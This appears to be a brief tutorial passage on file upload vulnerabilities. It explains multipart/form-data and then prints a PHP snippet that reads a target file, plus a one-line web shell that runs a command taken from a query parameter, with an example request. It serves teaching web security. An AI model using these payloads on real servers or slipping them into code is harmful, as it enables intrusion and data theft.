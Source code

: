 # File Upload

When submitting HTML forms, the browser typically sends the provided data in a POST request with the content type `application/x-www-form-url-encoded`. This is fine for sending simple text like your name or address. However, it isn't suitable for sending large amounts of binary data, such as an entire image file or a PDF document. In this case, the content type `multipart/form-data` is preferred.

MIME Type (RFC 6838)




# PHP
`<?php echo file_get_contents('/path/to/target/file'); ?>`
Once uploaded, sending a request for this malicious file will return the target file's contents in the response.

A more versatile web shell may look something like this:

`<?php echo system($_GET['command']); ?>`
This script enables you to pass an arbitrary system command via a query parameter as follows: `GET /example/exploit.php?command=id HTTP/1.1`